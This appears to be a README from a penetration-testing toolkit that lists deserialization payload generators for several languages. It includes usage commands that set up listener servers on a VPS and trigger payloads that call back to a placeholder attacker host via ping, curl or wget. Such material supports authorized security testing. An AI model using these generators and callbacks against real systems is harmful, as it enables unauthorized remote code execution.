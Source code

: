 # INSECURE DESERIALIZATION SCRIPTS
This collection contains various tools for generating serialized payloads in different programming languages.

## TOOLS
* [Java - ysoserial.jar](https://github.com/frohoff/ysoserial)
    * [jargadgets.txt](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/jargadgets.txt)
* [C# - ysoserial.exe](https://github.com/pwntester/ysoserial.net/)
    * :diamonds:[RunYsoserial.ps1](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/RunYsoserial.ps1) - Wrapper around ysoserial.net using all possible gadgets and formatters.
    * [netgadgets.txt](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/netgadgets.txt)
    * [netformatters.txt](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/netformatters.txt)
* [Python - python_deser.py](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/python_deser.py)
    * (Modified [Peas](https://github.com/j0lt-github/python-deserialization-attack-payload-generator))
* [Ruby - ruby_deser_vx.rb](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/ruby_deser_v2.rb)
    * ([deser-ruby](https://github.com/klezVirus/deser-ruby) is an alternative tool for Ruby v3 which also supports YAML generation)
* [PHP - phpggc](https://github.com/ambionics/phpggc)
    * [php_deser.sh](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/php_deser.sh) - Wrapper around phpggc that generates payloads from all possible gadgets in base64 format. 
    * [phpgadgets.txt](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/phpgadgets.txt)
* [Node.js - deser-node.js](https://github.com/klezVirus/deser-node)
    * With deletec console.log() for clean output.
* :diamonds:[crimson_deser.sh](https://github.com/Karmaz95/crimson/blob/master/scripts/deser/crimson_deser.sh) - Wrapper around all generators except .NET

## USAGE
#### ON VPS
```bash
# TERMINAL 1
echo 123 > fake.dll
sudo impacket-smbserver deser . -smb2support
# TERMINAL 2
updog -p 443 --ssl 2>&1 | tee -a https.logs
# TERMINAL 3
python3 -m http.server 80 2>&1 | tee -a http.logs
# TERMINAL 4
sudo tcpdump -i any icmp -ttttt -w - -U | tee icmp.logs | tcpdump -r -
```
#### ON WINDOWS
```powershell
# In ysoserial directory
.\RunYsoserial.ps1 -collab 'ip_or_domain_here' -outputFormat 'base64' -outputFile 'deser.txt'
.\RunYsoserial.ps1 -collab 'ip_or_domain_here' -outputFormat 'hex' -outputFile 'deser.txt'
```

#### ON UNIX
```bash
# You can try with curl | wget and any other command for the external interaction with IP / DOMAIN:
./crimson_deser.sh "ping VPS_IP" "VPS_IP" "DOMAIN_COLLAB"
```

